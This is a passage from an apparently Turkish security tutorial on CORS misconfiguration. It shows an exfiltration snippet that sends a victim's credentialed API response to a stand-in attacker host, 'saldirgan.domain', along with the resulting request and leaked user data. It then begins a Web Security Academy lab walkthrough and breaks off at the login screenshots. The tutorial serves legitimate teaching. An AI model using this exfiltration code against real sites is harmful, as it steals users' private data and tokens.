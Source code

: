  req.withCredentials = true; 
req.send(); 
function reqListener() { 
location=”//saldirgan.domain/log?response=”+this.responseText; 
};

```
Yukarıdaki gibi bir kodla saldırganlar zafiyetli domainden verileri çalabilir.Uygulamada (“zafiyetli.domain”) kimliği doğrulanmış kurban, önceki kodu içeren sayfayı ziyaret ettiğinde, “zafiyetli.domain”e aşağıdaki isteği gönderir;

```
GET /api/user-data HTTP/1.1 
Host: zafiyetli.domain 
Origin: https://saldirgan.domain/ 
Cookie: JSESSIONID= <redacted>

```
Ve uygulama aşağodaki yanıtları verir;

```
HTTP/1.1 200 OK
Server: Apache 
Access-Control-Allow-Origin: https://saldirgan.domain
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Access-Control-Allow-Origin,Access-Control-Allow-Credentials
Vary: Origin
Expires: Thu, 15 Jan 2017   10:00:00 GMT
Last-Modified: Wed, 01 Aug 2020 09:30:01 GMT
Cache-Control: no-store, no-cache, must-revalidate, max-age=0, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: application/json;charset=ISO-8859-1
Date: Wed, 01 Aug 2020 09:30:01 GMT
Connection: close
Content-Length: 149
{"id":3452213,"name":"kursad","surname":"kursad","email":"kursad@kursad.com","account":"ACT6161615","balance":"615461,7","token":"top-secret-string"}

```
Server tarafından gönderilen 2 “Access-Control-Allow-*” başlığı nedeniyle, kurban tarayıcısı, kötü amaçlı sayfaya eklenen JavaScript kodunun özel verilere erişmesine izin verir...

vs. vs. vs.
<br>
<br>
<br>

Web Security Academy üzerinden Lab Çözerek pratik yapacağız...

<h4 style="color:yellow;">Lab: CORS Vulnerability With Basic Origin Reflection</h4>
Bize bir açıklama yapılmış ; Hedef sitenin güvenli olmayan bir CORS yapılandırılmasına sahip olduğu belirtilmiş.Labı çözmek için administrator’un API key’ini almamız ve bunu exploit sunucusuna Javascript oluşturarak  yüklememiz gerekmektedir.Administrator’un  API keyini başaruyla gönderdiğimizde lab çözülür. Saldırıyı tasarlayıp kullanabilmemiz için bize  hesap verilmiş; ”winer:peter”

Web Uygulaması, bizim oturum açmamıza,eposta adresi değiştirmemize,ve API key’i almamıza olanak tanıyan çevrimiçi bir mağazadır. Burp’e  bağlayıp hesabımıza giriş yapalım;

<img src="https://1.bp.blogspot.com/-5z6gbcaMr00/Xyv-z_gTtpI/AAAAAAAAAds/fZDh865jC6o_NOp5qxvDHuIoF-kK4aRIACNcBGAsYHQ/s1255/cors1.png" height="523" width="860">

Sisteme login olduk ve daha sonrasında My account kısmına  gidelim;

<img src="https://1.bp.blogspot.com/-bC7-PAVzz-w/Xyv-z9Y5WeI/AAAAAAAAAdo/oyXgizTbxT0gW6PL6tNHrLPrYFB78PrpACNcBGAsYHQ/s1161/cors2.png" height="523" width="860">

```